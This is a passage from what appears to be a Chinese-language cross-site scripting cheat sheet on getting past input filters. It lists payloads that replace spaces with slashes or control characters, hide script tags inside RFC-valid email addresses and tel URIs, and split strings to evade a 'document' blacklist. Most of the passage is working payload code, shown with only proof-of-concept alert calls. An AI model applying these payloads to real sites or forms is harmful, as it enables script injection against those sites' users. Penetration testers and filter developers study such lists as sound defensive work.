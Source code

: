 - 使用'/'绕过onxxx=

    ```js
    <img src='1' onerror/=alert(0) />
    ```

## 空格过滤的绕过

- 使用'/'绕过空格过滤

    ```javascript
    <img/src='1'/onerror=alert(0)>
    ```

- 使用`0x0c/^L`或`0x0d/^M`或`0x0a/^J`或`0x09/^I`绕过空格过滤

  ```html
  <svgonload=alert(1)>
  ```

```ps1
$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```

## 电子邮件过滤的绕过

- [符合RFC0822](http://sphinx.mythic-beasts.com/~pdw/cgi-bin/emailvalidate)

  ```javascript
  "><svg/onload=confirm(1)>"@x.y
  ```

- [符合RFC5322](https://0dave.ch/posts/rfc5322-fun/)

  ```javascript
  xss@example.com(<img src='x' onerror='alert(document.location)'>)
  ```

## 电话URI过滤的绕过

至少有两个RFC提到了`;phone-context=`描述符：

- [RFC3966 - 电话号码的tel URI](https://www.ietf.org/rfc/rfc3966.txt)
- [RFC2806 - 电话呼叫的URL](https://www.ietf.org/rfc/rfc2806.txt)

```javascript
+330011223344;phone-context=<script>alert(0)</script>
```

## 绕过文档黑名单

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
window["doc"+"ument"]
```

